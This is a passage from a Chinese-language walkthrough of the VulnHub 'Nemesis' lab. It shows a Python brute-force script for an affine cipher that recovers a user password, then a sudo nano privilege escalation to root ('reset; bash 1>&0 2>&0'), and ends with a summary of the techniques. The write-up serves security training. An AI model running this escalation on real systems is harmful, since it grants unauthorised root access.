 ```python
            for key1 in range(26):
                key = [key0, key1]
                decrypted_text = affine_decrypt(cipher, key)
                if decrypted_text and 'FUN' in decrypted_text:
                    print(f"Possible key: {key}, Decrypted text: {decrypted_text}")

def main():
    affine_encrypted_text = "FAJSRWOXLAXDQZAWNDDVLSU"
    brute_force_decrypt(affine_encrypted_text)

if __name__ == '__main__':
    main()
```

然后执行脚本，即可发现密码`ENCRYPTIONISFUNPASSWORD`

![](D:\stu\vulnhub\IA靶场\Nemesis-pic\24.jpg)

以为这个密码是`root`的，可以直接到最后了。

测试发现是当前用户`carlos`的，在`ssh`登录的地方切换为`carlos`用户，因为在这里可以使用补全。。。。

使用`find`寻找具有SUID权限文件，发现有`sudo`，尝试`sudo -l`，发现是执行`nano`打开某个文件

![](D:\stu\vulnhub\IA靶场\Nemesis-pic\25.jpg)

若不了解该提权，可以借助网站`gtfobins.github.io`查看

![](D:\stu\vulnhub\IA靶场\Nemesis-pic\26.jpg)

```shell
sudo /bin/nano /opt/priv
^R^X		#这里是ctrl+R   和  ctrl+X
reset; bash 1>&0 2>&0
```

处于这时，执行命令，然后就会提权到`root`

![](D:\stu\vulnhub\IA靶场\Nemesis-pic\27.jpg)

切换到`/root`，并查看最终`flag`

![](D:\stu\vulnhub\IA靶场\Nemesis-pic\28.jpg)



# 总结

该靶场考察以下几点：

1. 网站的比较，这里是进行网站复制时，存在一个文件包含漏洞，不过这里的数据包是`POST`的，但是这里我没有抓取数据包分析，而是直接进行对比网站以及提示存放在文件，进行的测试
2. 了解一般用户的`ssh`公私钥等的存放位置，以及默认名称
3. 对于`python`调用模块时，其实是调用`py`文件，不过一般是从库里直接调用。但是还是会先从同级目录进行调用，若没有，再从库调用
4. `pspy64`的使用，可以查看到很多看不到的
5. 对于仿射加密的了解，虽然这里可以直接借助`ai`识别，并进行生成破解的代码，但是还是要去了解下
6. 对于`sudo`提权的一些方法











